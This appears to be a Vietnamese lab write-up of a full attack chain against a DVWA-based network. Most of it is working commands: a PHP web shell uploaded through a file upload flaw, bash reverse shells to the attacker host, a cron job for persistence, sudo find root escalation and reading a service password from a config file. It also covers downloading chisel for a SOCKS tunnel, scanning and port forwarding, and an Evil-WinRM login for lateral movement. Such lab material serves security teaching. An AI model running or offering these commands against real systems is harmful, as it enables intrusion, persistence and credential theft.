
*Hình 4.4: Thiết lập mức độ bảo mật ứng dụng về Low trong cài đặt DVWA.*

1. **Chuẩn bị payload `shell.php`**:
```php
<?php 
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```


*Hình 4.5: Khai thác lỗ hổng File Upload tải tệp mã độc shell.php lên máy chủ.*

*Hình 4.6: Kiểm tra đường dẫn lưu trữ tệp shell.php trong thư mục hackable/uploads.*

2. **Lắng nghe kết nối trên Kali**:
```bash
nc -lvnp 4444
```


*Hình 4.7: Mở cổng lắng nghe Netcat listener trên cổng 4444 của Kali Linux.*

3. **Kích hoạt reverse TCP shell qua HTTP GET request**:
```bash
curl -G "http://192.168.50.20/dvwa/hackable/uploads/shell.php" \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/192.168.50.100/4444 0>&1'"
```


*Hình 4.8: Kích hoạt Reverse TCP Shell thông qua yêu cầu HTTP cURL.*

*Hình 4.9: Nhận thành công phiên tương tác Reverse Shell dưới danh tính www-data.*

---

### Bước 3: Thiết lập duy trì truy cập bằng Cronjob (Persistence)


*Hình 4.11: Cơ chế duy trì quyền truy cập ngầm qua Linux Crontab Bước 3 từ slide bài giảng.*

- **MITRE ATT&CK**: `T1053.003` (Scheduled Task/Job: Cron)
- **Mục tiêu**: Cài đặt một cron job tự động kết nối reverse shell về Kali mỗi 5 phút dưới quyền tài khoản `www-data`.
- **Lệnh thực thi trên Web Shell**:
```bash
(crontab -l 2>/dev/null; echo "*/5 * * * * bash -i >& /dev/tcp/192.168.50.100/4444 0>&1") | crontab -
```

---

### Bước 4: Leo thang đặc quyền Root qua Sudo GTFOBins (Privilege Escalation)


*Hình 4.12: Cơ chế leo thang đặc quyền Root qua Sudo NOPASSWD find Bước 4 từ slide bài giảng.*

- **MITRE ATT&CK**: `T1548.003` (Abuse Elevation Control Mechanism: Sudo)
- **Mục tiêu**: Khai thác cấu hình `sudoers` cho phép tài khoản `www-data` thực thi lệnh `find` với quyền root không cần mật khẩu (`NOPASSWD`).
- **Lệnh thực thi trên Web Shell**:
```bash
sudo -l
sudo /usr/bin/find . -exec /bin/sh \; -quit
```

---

### Bước 5: Thu thập Credential từ file cấu hình nội bộ (Credential Access)


*Hình 4.13: Quy trình thu thập thông tin mạng và mật khẩu từ file config.inc.php Bước 5 từ slide bài giảng.*

- **MITRE ATT&CK**: `T1552.001` (Unsecured Credentials: Credentials In Files)
- **Mục tiêu**: Khám phá các host lân cận qua bảng ARP cache (`ip neigh`) và đọc file cấu hình web server để tìm thông tin tài khoản dịch vụ Active Directory / Windows.
- **Lệnh thực thi (Root)**:
```bash
ip neigh
cat /var/www/html/dvwa/config/config.inc.php | grep -i "svc_"
# Output: // LDAP_SVC_ACCOUNT=svc_backup / LDAP_SVC_PASS=P@ssw0rd2026!
```


*Hình 4.10: Thu thập thông tin mạng nội bộ và các nút láng giềng qua ip neigh.*

*Hình 4.11: Đọc tệp cấu hình config.inc.php trích xuất thông tin đăng nhập svc_backup.*

---

### Bước 6: Mở kênh Reverse SOCKS Tunnel qua Chisel (Defense Evasion và Tunneling)


*Hình 4.16: Kiến trúc đường hầm Chisel Reverse SOCKS5 Proxy và Socat Port Forwarding Bước 6 từ slide bài giảng.*

- **MITRE ATT&CK**: `T1105` (Ingress Tool Transfer), `T1090.001` (Proxy: Internal Proxy)
- **Mục tiêu**: Tải binary `chisel` vào thư mục `/tmp` trên Web Server và thiết lập reverse SOCKS5 proxy về máy Kali để định tuyến traffic vào mạng nội bộ.

1. **Trên Kali Attacker (Mở Chisel Server)**:
```bash
./chisel server --reverse -p 8080
```


*Hình 4.12: Khởi chạy dịch vụ Chisel Server trên cổng 8000 của Kali Linux.*

2. **Trên Web Server (Chạy Chisel Client kết nối ngược)**:
```bash
wget http://192.168.50.100:8000/chisel -O /tmp/chisel
chmod +x /tmp/chisel
/tmp/chisel client 192.168.50.100:8080 R:1080:socks &
```


*Hình 4.13: Tải tệp thực thi Chisel client về máy chủ web Ubuntu.*

*Hình 4.14: Thiết lập đường hầm Reverse SOCKS5 Proxy kết nối ngược về Kali.*

---

### Bước 7: Dò quét mạng nội bộ và Port Forwarding (Internal Discovery và Pivoting)
- **MITRE ATT&CK**: `T1046` (Network Service Discovery)
- **Mục tiêu**: Quét kiểm tra cổng WinRM (`5985`) và SMB (`445`) trên máy chủ `192.168.100.30`, sau đó dùng `socat` mở port forwarding trên port `5555`.

1. **Quét cổng qua proxychains trên Kali**:
```bash
proxychains nmap -sT -Pn -p 5985,445,3389 192.168.100.30
```


*Hình 4.15: Quét cổng máy chủ Windows Server thông qua Proxychains và SOCKS5 tunnel.*

2. **Thiết lập Port Forwarding qua `socat` trên Web Server**:
```bash
socat TCP-LISTEN:5555,fork,reuseaddr TCP:192.168.100.30:5985 &
```


*Hình 4.16: Cấu hình Socat Port Forwarding chuyển tiếp lưu lượng cổng WinRM 5985 sang 5555.*

*Hình 4.17: Kiểm tra kết nối dịch vụ WinRM thông qua cổng trung gian 5555.*

---

### Bước 8: Di chuyển ngang và Tạo tài khoản quản trị dự phòng (Lateral Movement và Persistence)


*Hình 4.23: Luồng di chuyển ngang qua WinRM bằng tài khoản svc_backup từ slide bài giảng.*

- **MITRE ATT&CK**: `T1021.006` (Remote Services: Windows Remote Management), `T1136.001` (Create Account: Local Account)
- **Mục tiêu**: Đăng nhập WinRM vào máy chủ Windows bằng tài khoản `svc_backup`, kiểm tra đặc quyền và tạo tài khoản local backdoor thêm vào nhóm `Administrators`.

1. **Kết nối Evil-WinRM từ Kali**:
```bash
evil-winrm -i 192.168.50.20 -u svc_backup -p 'P@ssw0rd2026!' -P 5555
```


*Hình 4.18: Đăng nhập từ xa thành công vào Windows Server bằng Evil-WinRM với tài khoản svc_backup.*
